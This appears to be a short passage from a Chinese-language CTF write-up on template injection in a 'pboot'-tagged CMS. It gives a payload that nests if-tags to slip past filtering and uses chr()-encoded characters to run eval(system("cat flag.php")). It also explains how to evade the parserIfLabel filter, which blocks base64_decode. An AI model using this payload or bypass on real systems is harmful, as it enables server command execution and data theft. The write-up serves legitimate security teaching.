 ![build_bug2_error1_223](img/build_bug2_error1_223.jpg)

```shell
{pbootpbootpboot:if:if:if((eval(chr(0x73).chr(0x79).chr(0x73).chr(0x74).chr(0x65).chr(0x6d).chr(0x28).chr(0x22).chr(0x63).chr(0x61).chr(0x74).chr(0x20).chr(0x66).chr(0x6c).chr(0x61).chr(0x67).chr(0x2e).chr(0x70).chr(0x68).chr(0x70).chr(0x22).chr(0x29).chr(0x3b))))}!!!{/pbootpbootpboot:if:if:if}
```

![build_bug2_error2_224](img/build_bug2_error2_224.jpg)

解决思路：仔细观察「函数parserIfLabel」中正则表达式及白名单的过滤情况，此函数过滤了 「base64_decode」，使用「函数chr()」拼接时要注意在「chr」和括号间 **插入空格** ，而 函数 **eval()**  是 「PHP」中的常用函数，它表示「将字符串当成 PHP 代码来计算」，非常基本也至关重要。
